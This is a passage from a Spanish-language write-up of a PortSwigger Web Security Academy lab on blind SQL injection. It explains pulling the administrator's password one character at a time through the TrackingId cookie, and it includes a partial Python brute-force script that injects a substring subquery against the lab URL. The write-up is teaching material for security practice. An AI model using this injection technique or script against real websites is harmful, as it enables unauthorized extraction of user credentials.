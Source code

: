 - Si por ejemplo seleccionamos el segundo caracter **username,2,1** la palabra **admnistrator** su segunda letra es la **d** así que ya es correcto y nos aparece en el mensaje para basarnos en eso. 

![](/assets/portswigger/sqli/web62.png)

- Igual que el campo **Username** podemos hacerlo para **password** pero vamos a usar **Python3** para que sea mucho mas rápido y poder fuzzear las posiciones y nos basamos en la respuesta.

```bash
#!/usr/bin/python3 

from pwn import *
import requests, time, signal, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c 
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0aa6009704c7d45a88ea00aa00d1002d.web-security-academy.net/"
characters = string.ascii_lowercase + string.digits

def makeRequest():
    
    password = ""

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando Fuerza Bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21): # Longitud de la contraseña 
        for character in characters:    
            
            cookies = {
                'TrackingId': "h9NyMIr3HYJLUkb8' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                'session': 'yTTLOIU9sVTCPIJ9RRzXZF1jIoSmaWuN'
```